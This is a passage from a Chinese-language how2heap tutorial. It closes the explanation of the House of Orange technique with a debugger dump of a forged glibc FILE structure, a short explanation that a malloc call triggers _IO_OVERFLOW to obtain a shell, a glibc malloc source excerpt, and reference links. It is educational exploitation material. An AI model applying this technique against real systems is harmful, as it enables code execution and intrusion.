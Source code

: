 ```
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0x4006d3, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0x0, 
    _codecvt = 0x0, 
    _wide_data = 0x0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x602460
}
```

最后随意分配一个 chunk，由于 `size<= 2*SIZE_SZ`，所以会触发 `_IO_flush_all_lockp` 中的 `_IO_OVERFLOW` 函数，获得 shell。
```c
  for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",
                             chunk2mem (victim), av);
          size = chunksize (victim);
```

到此，how2heap 里全部的堆利用方法就全部讲完了。


## 参考资料
- [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
- [House of Orange](https://www.lazenca.net/display/TEC/House+of+Orange#HouseofOrange-Sourcecode)
- [house_of_orange](http://blog.leanote.com/post/3191220142@qq.com/house_of_orange)
